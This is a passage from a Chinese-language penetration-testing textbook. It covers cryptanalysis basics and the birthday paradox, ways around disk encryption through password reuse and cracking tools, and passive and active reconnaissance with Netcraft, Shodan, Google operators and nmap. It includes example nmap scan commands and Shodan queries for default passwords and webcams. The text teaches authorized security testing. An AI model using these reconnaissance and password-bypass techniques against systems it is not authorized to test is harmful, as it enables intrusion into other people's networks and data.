- **信息推断：** 攻击者获得了此前未知的关于明文（或密文）的一些香农信息。香农信息的概念超出了本章范围；现在我给出一个过度简化的定义：任何你此前不具备的信息位。
- **区分算法：** 攻击者能够将密码体制与随机置换区分开。

整本书都写在密码分析上。本节的目的是只是给你一些该领域的基本概念，以便你从基础层面获得一般性理解。肯定还有其他方法在本节中未讨论。

## 频率分析

频率分析是破解大多数古典密码的基本工具。它对现代对称或非对称密码学没有用。它基于某些字母和字母组合比其他字母更常见的事实。在所有语言中，某些字母出现的频率高于其他字母。通过检查这些频率，你可以推导出有关所用密钥的一些信息。请记住，在英语中，the 和 and 是两个最常见的三字母词。最常见的单字母词是 I 和 a。如果你在单词中看到两个相同的字母在一起，最可能是 ee 或 oo。

## 现代方法

破解现代密码学方法相当艰巨。成功程度取决于资源的组合。这些资源是计算能力、时间和数据。如果你拥有其中任何一种无限量，你就可以破解任何现代密码体制。但你不会拥有无限量。

## 已知明文攻击

该方法基于拥有已知明文样本及其对应的密文，然后利用这些信息尝试推断所用密钥的某些信息。获取已知明文样本比你想象的要容易。考虑电子邮件。许多人，包括我自己，使用标准的签名块。如果你曾经收到过我的邮件，你就知道我的签名块是什么。然后如果你截获我发送的加密邮件，你可以将已知的签名块与加密邮件的末尾进行比较。你将拥有已知的明文和对应的密文来工作。这需要成千上万个已知明文样本才能成功。

## 选择明文攻击

这与已知明文攻击密切相关，不同之处在于攻击者找到了让目标加密攻击者选择的消息的方法。这可以让攻击者尝试推导出所用的密钥，从而解密用该密钥加密的其他消息。该方法可能很困难，但并非不可能。它需要成千上万个选择明文样本才能成功。

## 仅密文攻击

攻击者仅能访问一组密文。这比已知明文更可能发生，但也是最困难的。如果能够推导出相应的明文，甚至更好的是密钥，则攻击完全成功。能够获得有关底层明文的任何信息仍然被视为成功。

## 相关密钥攻击

这类似于选择明文攻击，只是攻击者可以获得用两个不同密钥加密的密文。如果能够获得明文和对应的密文，这实际上是一种非常有用的攻击。

这些是攻击分组密码的基本方法。还有其他方法超出了本书范围，例如差分密码分析和线性密码分析。为了理解基本计算机安全，你不必掌握这些技术。

## 生日悖论

有一个数学难题可以帮助绕过哈希密码。它被称为生日悖论（有时也称为生日问题）。问题是这样的：在一个房间里需要多少人才能有很大可能性出现两个人同一天生日（即月份和
日，而不是年份）？显然，如果你把 367 人放在一个房间里，至少有两个人必须同一天生日，因为一年只有 365 天 + 闰年的 2 月 29 日。然而，我们不是问需要多少人才能保证匹配，而是问需要多少人才能有很高的概率。碰巧的是，即使房间里只有 23 人，两个人同一天生日的概率也有 50%。

这怎么可能？为什么这么低的数字就能奏效？基本概率告诉我们，当事件彼此独立时，所有事件发生的概率等于各个事件概率的乘积。因此，第一个人与任何之前的人不共享生日的概率是 100%，因为集合中没有之前的人。可以写成 365/365。现在对于第二个人，只有之前的一个人，第二个人与第一个人生日不同的几率是 364/365。对于第三个人，有两个人他/她可能与之共享生日，因此与之前两人的生日不同的几率是 363/365。由于这些都是独立的，我们可以按如下方式计算概率：

365/365 * 364/365 * 363/365 * 362/365 ... * 342/365（342 是第 23 个人与之前某人共享生日的概率）

让我们将这些转换为十进制值，这会得到（截断到小数点后三位）以下结果：

1 * 0.997 * .994 * .991 * .989 * .986 * ... .936 = .49 或 49%

这个 49% 是他们没有任何共同生日的概率；因此，23 人中有 2 人生日相同的概率为 51%（超过一半的几率）。

仅供参考，如果有 30 人，两个人同一天生日的概率是 70.6%。如果有 50 人，概率上升到 97%，相当高。这不仅仅适用于生日。相同的概念可以应用于任何数据集。它常用于密码学和密码分析。

关于密码学哈希函数，目标是找到两个不同的输入产生相同的输出。当两个输入从密码学哈希产生相同输出时，这被称为碰撞。碰巧的是，从任何包含 n 个元素的集合中获得匹配或碰撞所需的样本数量是 1.174 √n。回到之前的生日问题，1.174 √365 = 22.49。

你可以将此应用于其他密码学问题。一般来说，生日悖论应用于哈希。如果你试图找到碰撞（即产生相同哈希的值），生日悖论告诉你可能不需要你想象的那么长时间。

## 实际应用

正如本章前面提到的，你不太可能破解任何现代加密，至少不是在有用的时间内。前面讨论的方法更多是为了你的教育，而不是实际应用。那么，你如何尝试规避文件加密或全盘加密呢？

请记住，加密软件使用密码。用户输入密码来解密文件或驱动器。因此，用于检索密码的相同方法可用于尝试绕过加密。请注意，我说的是绕过加密，而不是破解它。那么方法是什么？


首先，尝试从其他来源获取的密码。例如，从 Windows SAM 文件中获取的密码可能与用于文件加密的密码非常相似。你甚至可能会注意到密码的模式；也许它们都与某个特定的体育队有关。

其次，简单尝试与相关人员有关的密码。人们经常选择与他们的爱好和兴趣相匹配的密码。我总是惊讶于公司使用与行业或公司名称相关的密码的频率有多高。

## 其他密码

特别是在电子邮件和硬盘加密方面，通常用户必须知道某个密码才能解密信息并访问它。许多硬盘加密工具使用非常强大的加密。例如，Microsoft BitLocker 使用 128 位密钥的 AES。一些开源硬盘加密工具使用 256 位密钥的 AES。简单来说，破解密钥是不切实际的。然而，完全有可能用户在其他地方使用了相同的密码（或基本相似的排列），例如在他们的电子邮件账户或 Windows 密码中使用。例如，你可能希望在用户的 Windows 计算机上使用 ophcrack 并获取这些密码（并且再次使用这些密码的排列）来尝试解密加密分区或电子邮件。

许多人甚至不知道他们的电子邮件密码已被破解。多个网站保留已被泄露的电子邮件账户列表。最受欢迎的是

https://haveibeenpwned.com

例如，如果你是一名执法人员，试图入侵嫌疑人的加密驱动器，你可能希望检查这些网站，看看该嫌疑人的电子邮件账户是否已被泄露。然后你可以使用电子邮件密码以及接近的排列来尝试解密硬盘。

## 深入学习

正如我在本章引言中提到的，单靠一章内容无法让你成为密码学专家。对于一些读者来说，本章包含的信息就是他们真正想要了解的全部。而且事实上，这足以让你进行渗透测试。然而，对于那些希望了解更多信息的读者，请允许我分享一些资源。

首先，我向你推荐一门精彩的在线密码学课程，由一位备受尊敬的密码学家 Dan Boneh 教授讲授。Boneh 博士是当今世界上最受尊敬的密码学家之一，也是出色的教师。他很友善地将他的整个密码学入门课程放在网上。这就是 Boneh 博士在斯坦福大学教授的同一门密码学入门课程，你可以通过 https://www.coursera.org/learn/crypto 访问。我强烈推荐他的课程。

请允许我也毫不避讳地推荐我自己的其中一本书，Modern Cryptography。这本书在密码学界是独一无二的，因为它是为数学知识有限的人准备的。我必须指出，然而，这本书对数学证明等主题只是略过，并只对高等数学做了最简短的介绍。这本书旨在作为非密码学家的入门。它旨在让读者在阅读完这本书后，转向我将在此处提到的更具数学严谨性的文本之一。

William Stallings 所著的 *密码学与网络安全* 是一本优秀的教材。它涵盖了你需要了解的所有要点。它比我的书更深入地探讨了一些数学，但又不会深到让非数学家难以理解。

Jonathan Katz 和 Yehuda Lindell 所著的 *现代密码学导论* 是一本相当不错的书。它在技术上绝对准确，比我的书或 Stallings 的书更具数学严谨性，但对新手来说可能难以阅读。

James Kraft 和 Lawrence Washington 所著的 *密码学中的数论导论* 非常好，但正如书名所示，它更深入地探讨了数学。

我的建议是，如果你真的想深入研究密码学，就从 Boneh 教授的在线课程开始。你可以多次观看视频。坦率地说，在他的课程之后，你可能不需要我的密码学书籍。但如果你愿意，也可以阅读它。然后，根据你对该主题的熟悉程度，接下来可以阅读 Stallings 的书或 Katz 和 Lindell 的书。或者，你也可以尝试我的密码学书籍，然后再转向 Kraft 和 Washington 的书。

无论你选择哪条路径，你都应该意识到密码学是一个复杂的主题，你需要逐步深入。你不会读完一本书就成为密码学大师。

## 总结

密码学是一个复杂的主题，渗透测试人员不必是密码学家或密码分析师。然而，基本的密码学工作知识对渗透测试人员是有用的。你不太可能成功“破解”现代加密。然而，你可能会发现各种规避加密的方法很有用。密码检索也是每次渗透测试都应包含的一项任务。

## 测试你的技能

### 多项选择题

1. John 使用一种工具将一份机密文档隐藏在一张上周假日派对的照片中。这叫什么？
- A. 对称加密
- B. 非对称加密
- C. HMAC
- D. 隐写术

2. 现代 Windows 系统使用什么哈希算法？
- A. LM
- B. SHA1
- C. SHA2
- D. NTLM2

3. Frank 正在寻找一种可以检索哈希密码的工具。该工具利用预先计算的哈希表。什么最能描述这个预先计算的哈希表？
- A. Rainbow table
- B. Salt
- C. NTLM
- D. Cain and Abel

4. Ahmed 想尝试绕过应用程序的安全性。他打算通过将一个哈希密码直接发送到处理该应用程序登录的数据库来实现，其中该哈希密码是他之前获取的。什么最能描述这种情况？
- A. Rainbow table
- B. 密码破解
- C. Pass the hash
- D. App cracking

5. Juanita 正在查看一种全盘加密解决方案。她正在检查的解决方案使用对称算法，密钥大小有三种：128、192 和 256 位。该解决方案使用什么算法？
- A. DES
- B. AES
- C. RSA
- D. RC4

6. Dipen 使用一种旨在对抗彩虹表的技术。这种技术在密码被哈希之前向密码中插入位。这种技术叫什么？
- A. Salt
- B. RC4
- C. LSB
- D. /etc/shadow

7. 用于隐写的最常见技术是什么？
- A. RC4
- B. LSB
- C. Salt
- D. Rainbow table

8. 什么是暴力破解？
- A. 使用物理力量迫使对方交出密码
- B. 使用自动密码或密码破解工具
- C. 压垮计算机以绕过密码
- D. 尝试每一种可能的密钥

9. 应用生日悖论，从 n 个可能输出中需要尝试多少个输入才能有 50% 的机会找到碰撞？
- A. 1.1774 √n
- B. 一半的输入
- C. 90% 的输入
- D. 所有的输入

### 项目

### 项目 1

下载 DeepSound 并在自己的计算机上使用它来隐藏数据。你应该将一张图片隐藏到一个声音文件中，并将一个文本文件隐藏到另一个声音文件中。

### 项目 2

下载 pwdump 和 RainbowCrack 并尝试破解自己计算机上的密码。使用 ophcrack 重复此过程。注意哪种方法在破解你的密码方面更有效。

## 侦察

### 章节目标

阅读本章并完成练习后，你将能够做到以下几点：
- 执行被动侦察
- 执行主动侦察
- 从公开来源收集信息
- 使用端口扫描器和漏洞扫描器

一旦你准备好开始渗透测试，第一步之一就是尽可能多地收集有关目标网络的信息。在白盒测试的情况下，大部分信息将由你的客户提供。在进行黑盒测试时，你将获得很少的信息，必须自行查明所有信息。

即使在进行白盒测试时，进行一些侦察以发现攻击者能够收集多少信息也是合适的。本章讨论的技术正是攻击者用来收集目标信息的技巧。因此，使用这些技术不仅为你的渗透测试提供信息，还能让你了解攻击者可获得的信息。

在第 8 章“Vulnerability Scanning”中，我们将探讨漏洞扫描的主题，这将补充你在本章遇到的技术。通过将本章解释的侦察与第 8 章描述的漏洞扫描相结合，你将拥有收集潜在目标网络大量信息的技巧和工具。


## 被动扫描技术

被动侦察是在不实际连接到网络的情况下收集有关目标网络的信息的过程。更熟练的攻击者总是会从被动侦察开始，渗透测试人员也应如此。在本节中，我们将研究执行被动侦察的一些工具和技术。其概念是在不实际连接到目标网站的情况下收集有关目标网站的信息。这样就不会触发入侵检测系统，也不会在目标系统的日志文件中留下痕迹。

### Netcraft

在连接目标网站之前，了解尽可能多的有关目标网站的信息通常很有用。渗透测试通常涉及测试 Web 服务器。因此，一个很好的第一步是尽可能多地了解目标 Web 服务器。网站 netcraft.com 在这方面非常有用。你可以在图 4-1 中看到 netcraft.com 的主页面。



图 4-1 Netcraft.com。

当你访问该页面时，只需向下滚动一点，你就会看到一个标题为“What's that site running?” 的部分。这在图 4-1 的红色框中显示。这里就是输入你想要测试的网站的地方。为演示此操作，我输入了我自己的网站 www.ChuckEasttom.com。结果显示在图 4-2 中。



图 4-2 www.ChuckEasttom.com 的 Netcraft.com 报告。

这里有很多信息。不过我得告诉你，地址信息并不准确。我故意没有在我的网站注册信息中填写真实地址。然而，很少有公司会采取这一步。你在 netcraft.com 上看到的联系信息很可能准确。

除背景信息外，netcraft.com 还会告诉你 Web 服务器运行的操作系统以及使用的 Web 服务器软件。这是非常有趣的信息，可以成为指导你尝试渗透 Web 服务器的第一步。netcraft.com 上找到的其他信息也可能很有趣。例如，如果你看到网站在 Windows 2012 服务器上运行 Internet Information Services (IIS)，但 8 个月未重启，这非常重要。这很重要，因为 Windows 在安装某些补丁和服务包时通常需要重启。如果服务器 8 个月未重启，那么在该时间段内，那些需要重启的补丁和服务包就未被应用。

然后将该信息与漏洞网络搜索结合起来，查找过去 8 个月内发现的 Windows 2012 漏洞。这些是该服务器尚未修补的漏洞。这可以为你开始渗透目标 Web 服务器提供宝贵的线索。

### BuiltWith

另一个能提供其他网站信息的有趣网站是 https://builtwith.com/。该网站会提供目标网站构建细节（即使用的脚本和编程语言）。为演示目的，我使用了我自己的网站，结果显示在图 4-3 中。


图 4-3 BuiltWith.com。

该网站将为你提供构建目标网站所用技术的基本概述。了解网站的构建方式将指示你应如何尝试入侵该网站。例如，你对 ASP.NET 网站和 PHP 网站可能使用不同的技术。

### Archive.org

通常情况下，你会想知道给定网站的历史。有时网站所有者会在网站上放置不应该放置的信息。他们随后将其删除，但你可以调出网站的旧版本。为此演示，我再次使用我自己的网站，你可以在图 4-4 中看到。



图 4-4 Archive.org。

你可以看到该网站被归档的历史，并调出网站的以前版本。在许多情况下，这将提供有关目标网络的有用信息。该网站很有用，但对于渗透测试人员来说可能是信息来源中较不实用的之一。它可以为你提供该网站的信息历史，但无法为你提供当前漏洞。

### Shodan

这可能是本章讨论的最重要的工具。网站 https://www.shodan.io/ 本质上是一个漏洞搜索引擎。你需要注册一个免费账户才能使用它，但随后它对试图识别漏洞的渗透测试人员来说将非常宝贵。你也可以确信攻击者也会使用该网站。你可以在图 4-5 中看到该网站。



探索物联网
使用 Shodan 发现你的哪些设备已连接到互联网，它们位于何处以及谁在使用它们。

全局概览
网站只是互联网的一部分。发电厂、智能电视、冰箱等许多东西都可以用 Shodan 找到！

图 4-5 Shodan.io。

在 Shodan.io 上搜索时可以使用许多选项，其中一些在此列出，并附有来自我网站的示例结果：

- 搜索默认密码
  - default password country:US
  - default password hostname:chuckeasttom.com
  - default password city:Chicago
- 查找 Apache 服务器
  - apache city:"San Francisco"
- 查找网络摄像头
  - webcamxp city:Chicago
  - OLD IIS
  - "iis/5.0"

前面的列表是搜索词的示例；你可以使用以下过滤器：

- **city:** 在特定城市查找设备
- **country:** 在特定国家查找设备
- **geo:** 基于坐标（即纬度和经度）搜索
- **hostname:** 查找与特定主机名匹配的值
- **net:** 基于 IP 或 /x CIDR 搜索
- **os:** 基于操作系统搜索
- **port:** 查找打开的特定端口
- **before/after:** 在时间范围内查找结果

例如，图 4-6 显示了我搜索 **default password city:Chicago** 的结果。



图 4-6 Shodan 搜索结果。

当你执行渗透测试时，通过 Shodan 搜索公司域可以找到任何内容是一个好主意。这可以指导你的渗透测试工作，并且你也可以确信潜在攻击者会使用此工具。你可以将搜索限制为聘请你进行渗透测试的客户的主机名或域名。你可以寻找默认密码、旧 Web 服务器、不安全的网络摄像头以及目标网络中的其他漏洞。

### Social Media

社交媒体对渗透测试的价值不言而喻。如果你正在对 XYZ 公司进行渗透测试，那么你的早期任务之一应该是扫描 LinkedIn 和 Facebook 等社交媒体以查找该公司名称。当然，你会找到一些与渗透测试无关的信息，但如果你花时间筛选这些数据，很可能会找到一些非常有用的信息。

在社交媒体上找到一家公司相对容易，所以问题就变成：你在寻找什么？在社交媒体上可以搜索几件事。第一是有关公司的一般信息。你可能会发现一名网络管理员抱怨迁移到新版本的 Windows，这告诉你他们使用的 Windows 版本，并且这是一个新的变更，仍有问题需要解决。你可能会发现关键个人的姓名，这对社会工程很有用。从本质上讲，你正在为目标公司创建某种档案。也许会让你惊讶的是，公司允许泄露出多少信息。

### Google Searching

这可能看起来是一种了解目标系统的奇怪方式。我确信阅读本书的任何人都进行过 Google 搜索。但你可能不知道 Google 搜索的灵活性。以下是一些可能对你感兴趣的搜索：

- **Info about a site:** info:http://www.google.com
- **Find related sites:** related:http://www.google.com
- **Search the cache:** cache:http://google.com search
- **Word in URL:** inurl:http://google search
- **Restrict search to a site:** site:http://somesite.net
- **Similar items:** search ~tips
- **The OR operator:** cats | dogs


例如，如果你正在搜索关于 XYZ 公司的信息，并且希望了解其公司政策，你可以尝试

```
policies site:xyz.com
```

或者如果你专门查找该公司的 PDF 文档，你可以尝试以下两种搜索之一。首先，这将返回与政策相关的任何 PDF 文件，位于 xyz.com：

```
policies filetype:pdf site:xyz.com
```

或者如果你只是想要所有 PDF 文件，可以尝试

```
filetype:pdf site:xyz.com
```

正如你所见，更高级的 Google 搜索功能可以成为收集目标网络信息的有力工具。通常公司拥有政策文件、人事手册和类似文档，这些文档通过简单浏览其网站不易找到，但可以通过专门的 Google 搜索定位。

## 主动扫描技术

先前提到的技术都属于被动，因为它们不需要攻击者连接到目标系统。由于攻击者实际上并未连接到目标系统，因此入侵检测系统（IDS）无法检测到扫描。主动扫描更可靠，但可能被目标系统检测到。如下所述，有几种类型的活动扫描。

## 端口扫描

端口扫描是尝试联系目标系统上的每个网络端口并查看哪些端口是开放的过程。有 1,024 个众所周知的端口通常与特定服务相关联。例如，端口 161 与简单网络管理协议相关联。如果攻击者检测到目标系统上端口 161 开放，他可能会决定尝试 SNMP 相关攻击。还可以从端口扫描中获得更多信息。例如，端口 137、138 和 139 都与 NetBIOS 相关，NetBIOS 是一种非常古老的 Windows 网络通信方法，已不再用于 Windows。然而，NetBIOS 通常用于 Windows 机器需要与 Linux 机器通信的系统。因此，发现这些端口开放揭示了有关目标网络的一些信息。

在 Google 上简单搜索“port scanner”会显示大量众所周知、广泛使用且通常免费的端口扫描器。然而，黑客和安全社区中最流行的端口扫描器是免费工具 nmap (https://nmap.org/)。有一个带 GUI 的 Windows 版本可以从 https://nmap.org/download.html 下载。你可以在图 4-7 中看到我自己网站的基本 nmap 扫描。



图 4-7 nmap 扫描。

Nmap 允许你自定义扫描以使其更或少隐蔽，并针对特定系统。最常见的扫描类型如下列出：

- **Ping 扫描:** 此扫描只是向目标端口发送 ping。许多网络管理员会阻止传入的 ICMP 数据包以阻止 ping 扫描。
- **Connect 扫描:** 这是最可靠的扫描，但也最有可能被检测到。在这种类型的扫描中，与目标系统建立了完整的连接。
- **SYN 扫描:** 此扫描非常隐蔽。大多数系统接受 SYN（同步）请求。在此扫描中，你发送 SYN 数据包但在系统发送 SYN/ACK 时不予响应。然而，你每个端口只发送一个数据包。这也称为半开扫描。
- **FIN 扫描:** 此扫描将 FIN 标志或连接完成标志设置。此数据包对系统接收来说也不寻常，因此被认为隐蔽。
- **XMAS 扫描:** 此扫描打开了多个标志，就像圣诞树上点亮了许多灯。
- **NULL 扫描:** 此扫描与 XMAS 扫描相反：没有标志被打开。
- **ACK 扫描:** 此扫描发送 ACK，而不先接收 SYN。这是为了查看目标如何响应。

每种扫描都会在目标机器上引发不同的响应，从而为端口扫描器提供不同的信息：

- 使用 FIN 扫描或 XMAS 扫描，如果目标端口关闭，系统会返回 RST 标志数据包（RST 表示重置）。如果端口开放，则没有响应。
- 使用 SYN 扫描，如果端口关闭，响应是 RST；如果端口开放，响应是 SYN/ACK。
- ACK 扫描和 NULL 扫描仅在 UNIX 系统上有效。

Nmap 还允许你设置许多标志（使用 nmap 命令行版本或 Windows 版本）来自定义扫描。允许的标志如下列出：

- `-O` 检测操作系统
- `-sP` Ping 扫描
- `-sT` TCP 连接扫描
- `-sS` SYN 扫描
- `-sF` FIN 扫描
- `-sX` Xmas 树扫描
- `-sN` NULL 扫描
- `-sU` UDP 扫描
- `-sO` 协议扫描
- `-sA` ACK 扫描
- `-sW` Windows 扫描
- `-sR` RPC 扫描
- `-sL` 列表/DNS 扫描
- `-sI` 空闲扫描
- `-Po` 不 ping
- `-PT` TCP ping
- `-PS` SYN ping
- `-PI` ICMP ping
- `-PB` TCP 和 ICMP ping
- `-PM` ICMP 网络掩码
- `-oN` 正常输出
- `-oX` XML 输出
- `-oG` 可 Grep 输出
- `-oA` 所有输出
- `-T` 时机
  - `-T0` 偏执
  - `-T1` 潜行
  - `-T2` 礼貌
  - `-T3` 正常
  - `-T4` 激进
  - `-T5` 疯狂

在图 4-7 中可以看到，nmap GUI 会根据你选择的搜索将这些标志放入文本框中。图 4-8 显示了搜索选项。



图 4-8 nmap GUI 搜索选项。

还有设置时机的选项。时机涉及发送扫描数据包的速度。基本上，你发送数据包越快，扫描被检测的可能性就越大。nmap GUI 中的高强度扫描的时序为 T4。

以下是一些非常基础的 nmap 扫描，从扫描单个 IP 地址开始：

```
nmap 192.168.1.1
```

扫描一系列 IP 地址：

```
nmap 192.168.1.1-20
```

扫描以检测操作系统，使用 TCP 扫描，并使用潜行速度：

```
nmap -O -PT -T1 192.168.1.1
```

Nmap 和 GUI 版本 Zenmap 是最常用的端口扫描器。端口扫描的想法有两个方面。首先，了解哪些端口开放会让你了解正在运行哪些服务。其次，特定端口（如 NetBIOS 和 SMB）可以让你了解目标系统上运行的操作系统。

这就引出了一个非常重要的问题，即哪些端口最有趣。你当然可以通过简单搜索“network ports”在互联网上找到一份全面的端口列表，但对于渗透测试人员来说，有些端口比其他端口更有趣。表 4-1 总结了一些端口及其对你的意义。

## 表 4-1 众所周知的端口

| 端口 | 含义 |
|---|---|
| 20, 21; FTP | FTP 是一种常见协议，常在 Web 服务器上找到。对渗透测试人员来说有趣的是，许多 FTP 服务器允许有限的匿名访问。因此，如果你看到端口 20 和 21 开放，你至少可以尝试匿名 FTP。 |
| 23; Telnet | Telnet 是一种不安全的命令行连接（不像 22 端口上的 SSH 是加密的）。你可能首先想尝试登录 telnet。然而，即使不成功，你可能也希望运行一个数据包嗅探器（我们在本章后面讨论）来监视该端口的流量。管理员可能使用端口 23/telnet，从而以明文发送命令。 |
| 69; TFTP | TFTP 基本上是使用 UDP 而非 TCP 的有限 FTP。这通常与 Cisco 设备一起使用以检索数字证书。因此，看到此端口开放可能表明可能在使用带数字证书的 Cisco 设备。TFTP 还有其他用途，但这是最常见的。 |
| 137, 138, 139; NetBIOS | NetBIOS 主要由 Microsoft 使用。如果你看到此端口和 445（见下文），则很明显这是一个 Microsoft 系统。 |
| 25, 110, 143, 220; email | 这些都是明文、未加密的电子邮件协议。看到这些会给你两个信息。第一个是目标网络未能使用基本的安全预防措施，可能还有许多其他安全问题。第二是你可以运行数据包嗅探器并读取进出该系统的所有电子邮件。 |
| 465, 993, 995; encrypted email | 这正好相反，是加密电子邮件。看到其中一个告诉你目标网络至少采取了一些基本的安全预防措施，并且你无法读取电子邮件。 |
| 161, 162; SNMP | 简单网络管理协议非常常用以管理网络。SNMP 的版本 1 和 2 未加密，你可以用数据包嗅探器读取流量。版本 3 是加密的。但对于任何版本，你都应该尝试默认密码。 |
| 445; SMB | 服务器消息块由运行 Active Directory 的 Windows 操作系统使用。因此，看到此端口告诉你这是一个 Windows 域。 |
| 88, 464; Kerberos | 这些用于 Kerberos。如果你看到这些，你就知道目标网络使用 Kerberos 身份验证。 |
| 3389; Remote Desktop | 远程桌面 notoriously 不安全，如果你看到此端口开放，那么你至少必须尝试远程桌面进入系统。 |

显然，端口扫描是一项相对简单的任务，但可以提供大量信息。Nmap 可能是渗透测试人员和黑客中最广泛使用的端口扫描器。它也是许多渗透测试相关认证考试的常见话题。出于所有这些原因，熟练使用 nmap 对渗透测试人员很重要。然而，了解结果意味着什么同样重要。我们在本节中看到的是，对计算机网络有扎实的实践知识对于成为一名优秀的渗透测试人员至关重要。


## 枚举

实际攻击前流行的另一种技术是枚举。枚举 simply 是找出目标系统上有什么的过程。如果目标是整个网络，那么攻击者试图找出该网络上有哪些服务器、计算机和打印机。如果目标是特定计算机，那么攻击者试图找出该系统上存在哪些用户和共享文件夹。

第 3 章“Cryptography”介绍了 Cain and Abel 工具。该工具也可以执行基本的网络枚举。你可以在图 4-9 中看到 Cain and Abel 作为网络枚举工具的使用。只需单击左侧你想要查看更多详细信息的任何项目即可。



图 4-9 Cain and Abel。

Cain and Abel 显然是一款多功能工具。我们在第 3 章中看到它用于密码破解，现在又看到它用于网络枚举。Cain and Abel 在渗透测试人员和攻击者中都很受欢迎。

Angry IP Scanner 是另一款端口扫描/枚举工具。它可从网站 http://angryip.org/download/#windows 免费下载。你只需为该工具提供一个 IP 地址范围，它就会扫描这些地址，并告知哪些 IP 地址处于活动状态，如图 4-10 所示。

SuperScan 是另一款免费网络扫描器。你可以从 https://www.mcafee.com/us/downloads/free-tools/superscan.aspx 下载此工具。该工具比 Angry IP Scanner 更通用。你可以在图 4-11 中看到 SuperScan 的主屏幕。

